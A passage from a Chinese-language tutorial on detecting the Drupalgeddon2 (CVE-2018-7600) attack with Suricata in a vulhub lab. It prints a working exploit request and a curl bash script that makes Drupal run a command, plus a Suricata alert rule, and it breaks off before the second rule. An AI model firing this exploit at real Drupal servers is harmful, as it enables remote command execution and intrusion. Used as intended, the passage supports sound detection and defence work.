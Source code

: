 在Suricata上设置如下两条规则：

阻止form_id=user_register_form的一条自定义规则
针对CVE-2018-7600的一条PT（Positive Technologies）规则

```
POST /user/register?element_parents=account/mail/
%23value&ajax_form=wp_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language:en
User-Agent: Mozilla/5.0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render]
[]=exec&mail[#type]=markupsmail[#markup]=id
```


按照官方的安装指南来安装Suricata，然后使用vulhub容器来运行Drupal环境：


![](https://s3.hedgedoc.org/demo/uploads/5d0d895e-ea8b-4120-912d-6288672b9ce4.png)


首先来试一下利用CVE-2018-7600漏洞。以下是一段能够执行curl的一小段bash脚本：

```
#!/bin/bash

URL="/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax"
QSTRING="form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]="
COMMAND="id"
curl -v -d "${QSTRING}${COMMAND}" "http://192.168.16.112:8080$URL" 
```

该脚本会执行id命令。来试一下：


![](https://s3.hedgedoc.org/demo/uploads/f24f5258-6587-4a84-9c3e-09d581bb8c6d.png)

![](https://s3.hedgedoc.org/demo/uploads/aa7f766a-b6c6-4fe8-b0d9-39eb237882ff.png)



在Suricata中引入这两条规则。第一条规则会尝试匹配请求body中的form_id=user_register_form。而Positive Technology开发的第二条规则会匹配查询URL中的/user/register以及请求body中的#post_render。

规则如下：

```
alert http any any -> $HOME_NET any (\
  msg: "Possible Drupalgeddon2 attack";\
  flow: established, to_server;\
  content: "/user/register"; http_uri;\
  content: "POST"; http_method;\
  pcre: "/form_id=user_register_form/Pi";\
  sid: 10002807;\
  rev: 1;\
)
```
PT规则如下：
